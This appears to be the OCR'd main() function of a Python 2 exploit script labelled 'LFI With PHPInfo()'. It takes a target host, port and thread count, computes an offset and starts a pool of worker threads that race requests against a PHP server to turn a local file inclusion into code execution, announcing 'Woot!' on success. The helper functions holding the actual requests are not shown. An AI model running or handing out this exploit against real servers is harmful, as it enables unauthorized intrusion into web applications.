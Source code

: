     def main():
        
        print "LFI With PHPInfo()"
        print "-=" * 30

        if len(sys.argv) < 2:
            print "Usage: %s host [port] [threads]" % sys.argv[0]
            sys.exit(1)

        try:
            host = socket.gethostbyname(sys.argv[1])
        except socket.error, e:
            print "Error with hostname %s: %s" % (sys.argv[1], e)
            sys.exit(1)

        port=80
        try:
            port = int(sys.argv[2])
        except IndexError:
            pass
        except ValueError, e:
            print "Error with port %d: %s" % (sys.argv[2], e)
            sys.exit(1)
        
        poolsz=10
        try:
            poolsz = int(sys.argv[3])
        except IndexError:
            pass
        except ValueError, e:
            print "Error with poolsz %d: %s" % (sys.argv[3], e)
            sys.exit(1)

        print "Getting initial offset...",  
        reqphp, tag, reqlfi = setup(host, port)
        offset = getOffset(host, port, reqphp)
        sys.stdout.flush()

        maxattempts = 1000
        e = threading.Event()
        l = threading.Lock()

        print "Spawning worker pool (%d)..." % poolsz
        sys.stdout.flush()

        tp = []
        for i in range(0,poolsz):
            tp.append(ThreadWorker(e,l,maxattempts, host, port, reqphp, offset, reqlfi, tag))

        for t in tp:
            t.start()
        try:
            while not e.wait(1):
                if e.is_set():
                    break
                with l:
                    sys.stdout.write( "\r% 4d / % 4d" % (counter, maxattempts))
                    sys.stdout.flush()
                    if counter >= maxattempts:
                        break
            print
            if e.is_set():
                print "Woot!  \m/"
            else:
                print ":("
        except KeyboardInterrupt:
            print "\nTelling threads to shutdown..."
            e.set()
